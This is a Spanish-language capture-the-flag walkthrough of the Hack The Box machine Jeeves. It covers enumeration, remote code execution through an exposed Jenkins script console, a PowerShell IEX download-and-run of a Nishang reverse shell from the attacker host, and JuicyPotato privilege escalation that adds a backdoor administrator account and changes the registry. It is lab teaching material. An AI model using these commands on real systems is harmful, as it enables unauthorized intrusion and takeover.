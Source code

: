 ```yaml
---
layout: post
title: HTB_Active
date: 2023/07/10
---
```


# Jeeves {-}

## Introduccion {-}

La maquina del dia 20/08/2021 se llama Jeeves.

El replay del live se puede ver aqui

[![S4vitaar Jeeves maquina](https://img.youtube.com/vi/-o1c3s1QKUg/0.jpg)](https://www.youtube.com/watch?v=-o1c3s1QKUg)

No olvideis dejar un like al video y un commentario...
## Enumeracion {-}

### Reconocimiento de maquina, puertos abiertos y servicios {-} 

#### Ping {-}

```bash
ping -c 1 10.10.10.63
```
ttl: 127 -> maquina Windows

#### Nmap {-}

```bash
nmap -p- --open -T5 -v -n 10.10.10.63
```

Va lento

```bash
nmap -sS -p- --open --min-rate 5000 -vvv -n -Pn 10.10.10.63 -oG allPorts 
extractPorts allPorts
nmap -sC -sV -p80,135,445,50000 10.10.10.63 -oN targeted
```


| Puerto | Servicio | Que se nos occure? | Que falta? |
| ------ | -------- | ------------------ | ---------- |
| 80     | http     | Web, Fuzzing       |            |
| 135    | msrpc    |                    |            |
| 445    | smb      | Null session       |            |
| 50000  | http     | Web, Fuzzing       |            |

### Analyzando el SMB {-}

```bash
crackmapexec smb 10.10.10.63
smbclient -L 10.10.10.63 -N
smbmap -H 10.10.10.63 -u 'null'
```

Solo hemos podido comprobar que estamos frente a una maquina windows 10 pero poco mas.

### Analyzando la web {-}

#### Whatweb {-}

```bash
whatweb http://10.10.10.63
```

Estamos en frente de un IIS

#### Analyzando la web con Firefox {-}

Vemos una pagina de busqueda typo Google.

Buscando en internet vemos una routa potencial que seria `/askjeeves/` pero no nos da en este caso

Intentamos ver lo que hay en el puerto **50000** y tenemos un 404. Si le ponemos el `/askjeeves/`, llegamos en 
un panel de administration de Jenkins.



## Vulnerability Assessment {-}

### Vulnerabilidad Jenkins {-}

Teniendo accesso al panel de administracion de Jenkins es un problema ademas si hay en el menu el boton Administrar Jenkins.
Aqui es el caso.

Pinchamos a Administrar Jenkins y despues le damos a Consola de scripts.

Aqui podemos crear Groovy script

```bash
command = "whoami"
println(command.execute().text)
```

Si ejecutamos el commando vemos en la respuesta `jeeves\kohsuke`. Vemos con esto que tenemos capacidad de RCE.

## Vuln exploit & Gaining Access {-}

### Ganando accesso con Jenkins Consola de scripts {-}

1. Descargamos Nishang y modificamos el fichero de reverse shell por tcp

    ```bash
    git clone https://github.com/samratashok/nishang
    cd nishang/Shells
    cp Invoke-PowerShellTcp.ps1 ../../PS.ps1
    cd ../..
    nano PS.ps1
    ```

    Modificamos el fichero PS.ps1 para añadir `Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.7 -Port 443` al final del fichero

1. Compartimos un servicio http con python

    ```bash
    python3 -m http.server 80
    ```

1. Nos ponemos en escucha por el puerto 443

    ```bash
    rlwrap nc -nlvp 443
    ```

1. Creamos el Groovy script

    ```bash
    command = "powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.14.7/PS.ps1')"
    println(command.execute().text)
    ```

Ya hemos ganado accesso al systema. `whoami` -> **jeeves\kohsuke**. Ya podemos leer la flag.## Privilege Escalation {-}

### Rootear la maquina {-}

```bash
systeminfo
whoami /priv
```

Aqui vemos que tenemos el `SeImpersonatePrivilege` ;)

Tiramos como siempre de JuicyPotatoe.exe

Lo descargamos en la maquina de atacante y lo enviamos a la victima.

```bash
wget https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe
cp /usr/share/sqlninja/apps/nc.exe
python3 -m http.server 80
```

En la maquina victima lo descargamos

```bash
cd C:\Windows\Temp
mkdir privesc
cd privesc
iwr -uri http://10.10.14.7/JuicyPotato.exe -OutFile JuicyPotato.exe
```

Nos creamos un nuevo usuario con el JuicyPotato.

```bash
./JuicyPotato.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c net user s4vitar s4vitar1234$! /add"
./JuicyPotato.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c net localgroup Administrators s4vitar /add"
```

Si comprobamos con el commando `crackmapexec smb 10.10.10.63 -u 's4vitar' -p 's4vitar1234$!'` Vemos que el usuario no esta pwned.
Aqui tenemos que 

```bash
./JuicyPotato.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c net share attacker_folder=C:\Windows\Temp /GRANT:Administrators,FULL"
./JuicyPotato.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c reg add HKLM\Software\Microsoft\CurrentVersion\Policies\System /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f"
```

Si comprobamos otra vez con crackmapexec, vemos ahora que el usuario s4vitar esta pwned.
Ya nos podemos connectar con psexec

```bash
impacket-psexec WORKGROUP/s4vitar@10.10.10.63 cmd.exe
Password: s4vitar1234$!

whoami

#Output
nt authority\system

cd C:\Users\Adminstrator\Desktop
dir
type hm.txt
```

Aqui nos dice que la flag no esta aqui. Pensamos a Alternative Data Streams.

```bash
dir /r
more < hm.txt:root.txt
```

;)
